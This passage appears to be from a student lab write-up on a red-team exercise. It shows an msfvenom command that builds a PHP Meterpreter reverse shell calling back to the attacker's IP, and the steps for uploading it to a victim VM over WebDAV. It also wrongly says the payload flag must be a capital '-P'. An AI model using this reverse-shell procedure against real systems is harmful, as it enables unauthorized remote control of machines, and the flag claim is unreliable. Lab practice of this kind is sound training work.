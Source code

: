 ![](Red-Team-images/webdav-opened.png)


- Now that I have acess to file sharing at Capsone VM through my Kali VM, you can hack Capstone by running a malacious script (if you may).  

- To do this, on my Kali VM I can use `msfvenom` to create a reverse shell payload script in Kali Linux (hacker's VM). This payload when run on the victim machine (capstone VM) can extablish a retrograde connection with Kali linux on the Hacker's machine (Kali VM) and open up session and a terminal to execute additional code. This is where the Exploitation phase ends and the post-exploitation starts. 

- `msfvenom -P php/meterpreter/reverse_tcp lhost=192.168.1.8 lport=666 -f raw > open-shell.php`
- `-P` specifies payload, must be Capital letter P, `-f` specifies the file type
- `php/meterpreter/reverse_tcp` This will format the payload in php and code it such that its transferred to the victim in stages and not all at once (wich is more likely to fail becuse of large size)- In this particular setting however its not very relevent, because I am going to directly paste it. 
- `lhost` and `lport` specify the hacker's ip address and port which this payload will instruct the victim's mchine to connect to
- `open-shell.php` is the file name. 

![](Red-Team-images/msfvenom.png)

- Pasting the `open-shell.php` script file inside the Capsone VM file sharing and running it

